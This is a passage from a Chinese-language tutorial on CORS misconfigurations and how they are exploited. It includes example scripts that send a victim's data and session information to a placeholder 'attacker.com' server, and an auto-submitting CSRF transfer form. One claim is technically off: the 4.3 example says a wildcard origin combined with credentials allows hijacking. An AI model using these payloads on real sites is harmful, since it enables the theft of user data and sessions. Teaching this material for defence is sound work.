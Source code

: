 ### 3.3 未正确处理`Access-Control-Allow-Credentials`
- **问题`Access-Control-Allow-Credentials`设置为`true`，但`Access-Control-Allow-Origin`未设置为具体域名。
- **风险**：攻击者可以携带用户凭据访问资源，可能导致会话劫持。

### 3.4 未限制`Access-Control-Allow-Methods`和`Access-Control-Allow-Headers`
- **问题**：服务器未限制允许的HTTP方法和请求头。
- **风险**：攻击者可以滥用未限制的方法或头信息，执行恶意操作。

## 4. CORS配置错误的利用技术

### 4.1 跨域数据泄露
- **攻击向量**：攻击者利用宽松的`Access-Control-Allow-Origin`配置，通过恶意网站访问目标资源。
- **示例**：
  ```html
  <script>
    fetch('https://vulnerable-site.com/api/data', {
      credentials: 'include'
    })
    .then(response => response.json())
    .then(data => {
      // 将数据发送到攻击者服务器
      fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });
  </script>
  ```

### 4.2 CSRF攻击
- **攻击向量**：攻击者利用CORS配置错误，伪造跨域请求，执行未经授权的操作。
- **示例**：
  ```html
  <form action="https://vulnerable-site.com/api/transfer" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
  </form>
  <script>
    document.forms[0].submit();
  </script>
  ```

### 4.3 会话劫持
- **攻击向量`Access-Control-Allow-Credentials`配置错误，攻击者可以携带用户凭据访问资源，劫持用户会话。
- **示例`Access-Control-Allow-Origin`设置为`*`，且`Access-Control-Allow-Credentials`设置为`true`，攻击者可以通过以下代码劫持会话：
  ```javascript
  fetch('https://vulnerable-site.com/api/session', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    // 将会话信息发送到攻击者服务器
    fetch('https://attacker.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
  ```
